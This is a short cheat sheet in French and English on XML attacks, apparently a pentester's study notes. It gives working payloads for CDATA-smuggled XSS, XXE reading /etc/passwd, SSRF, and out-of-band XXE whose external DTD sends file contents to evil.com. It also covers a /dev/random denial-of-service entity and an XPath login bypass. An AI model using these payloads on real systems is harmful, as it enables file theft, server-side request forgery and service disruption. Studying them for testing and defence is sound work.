 # XXE and other XML vulnerabilities

## XML injection

Si nos inputs sont directement ajoutés en tant que nœud dans un doc xml, on peut :

* Inject malformed string to break the parser
* Modify information with well crafted payload
* If the xml is converted to html, `<![CDATA[]]>` might just be stripped, making it possible to inject other script undetected

```markup
<html>
    <![CDATA[<]]>script<![CDATA[>]]>alert(‘xss’)<![CDATA[<]]>/
    script<![CDATA[>]]>
</html>

<!-- to : -->
<script>alert(‘XSS’)</script>
```

## XXE - _XML External Entities_

### Inband

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE inband [
    <!ELEMENT inband ANY>
    <!ENTITY xxe SYSTEM "/etc/passwd">
]>
<inband>&xxe;</inband>
```

### SSRF - _Server Side Request Forgery_

```markup
<?xml version="1.0"?>
<!DOCTYPE ssrf [
    <!ENTITY request SYSTEM "http://attacker.com">
]>
<ssrf>&request;</ssrf>
```

### Out-of-band \(blind\)

```markup
<!-- test.xml-->
<?xml version="1.0" encoding="UTF-8 ?>
<!DOCTYPE test SYSTEM "http://evil.com/external.dtd">
<test>&send;</test>

<!-- external.dtd -->
<!ENTITY % file_content SYSTEM "/etc/passwd">
<!ENTITY % wrapper "<!ENTITY send 'http://evil.com/?%file_content;'>">
%wrapper;
```

Au cas où le contenu du fichier ferait bugger le parser, on peut abuser de _CDTATA_ :

```markup
<!-- test.xml-->
<?xml version="1.0" encoding="UTF-8 ?>
<!DOCTYPE test SYSTEM "http://evil.com/external.dtd">
<test>&send;</test>

<!-- external.dtd -->
<!ENTITY % file_content SYSTEM "/etc/passwd">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % wrapper "<!ENTITY send 'http://evil.com/?%start;%file_content;%end;'>">
%wrapper;
```

### DDOS

```markup
<?xml version=”1.0” encoding=”ISO-8859-1”?>
 <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM “file:///dev/random” >
]>
<foo>&xxe;</foo>
```

### Ressources supplémentaires

* [https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/](https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/) 
* [https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)
* See also "A Billion Laugh" attack

## XPath Injection

Elles suivent la même logique que les injections SQL \(`‘or ‘1’ = ‘1`\)

```text
# this :
string(//user[user/text()=’gandalf’ and pass/text()=’qwertasd123’]/account/text())

# to this :
string(//user[user/text()=’gandalf’ and pass/text()=’’ or ‘1’ = ‘1’]/account/text())
```

J'imagine que le même genre de chose est possible avec XQuery.

## Sources

* [Owasp testing guide v4](https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf)
* PwnFunction [video](https://youtu.be/gjm6VHZa_8s)
* Misc research

